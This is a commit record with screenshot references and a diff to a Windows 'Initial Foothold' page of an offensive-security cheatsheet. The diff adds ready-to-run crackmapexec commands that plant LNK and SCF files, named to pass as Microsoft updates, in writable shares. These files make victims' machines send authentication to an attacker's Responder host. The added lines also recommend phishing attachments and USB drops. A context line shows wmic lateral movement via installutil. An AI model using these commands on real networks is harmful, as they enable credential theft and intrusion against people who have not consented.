

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Initial_Foothold.md, in a window 1280 px wide and 900 px high, scrolled down 7345 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Initial_Foothold.md

````diff
--- a/docs/Windows/Initial_Foothold.md
+++ b/docs/Windows/Initial_Foothold.md
@@ -285,7 +285,14 @@ winrs -r:DC01.domain.com cmd
     ```powershell
     wmic /node:dc01.domain.com process call create "cmd.exe /c \windows\microsoft.net\framework64\v4.0.30319\installutil.exe /logfile= /u \temp\file.dll"
     ```
-
+#### Creating lnk file in writable shares
+* None opsec safe
+* In my experience, IT noticed randomly generated folder names (not necessarily a file)
+* Still good to be inserted in phishing email attachments and USB drops (combine with knary)
+```
+crackmapexec smb /home/kali/Scope/writable_shares.txt -d domain.local -u user01 -p P@ssw0rd -M slinky -o SERVER=<ATTACKER_RESPONDER_IP> NAME=Microsoft_UpdateLnk
+crackmapexec smb /home/kali/Scope/writable_shares.txt -d domain.local -u user01 -p P@ssw0rd -M scuffy -o SERVER=<ATTACKER_RESPONDER_IP> NAME=Microsoft_UpdateScf
+```
 
 [^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
 [^2]: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
````
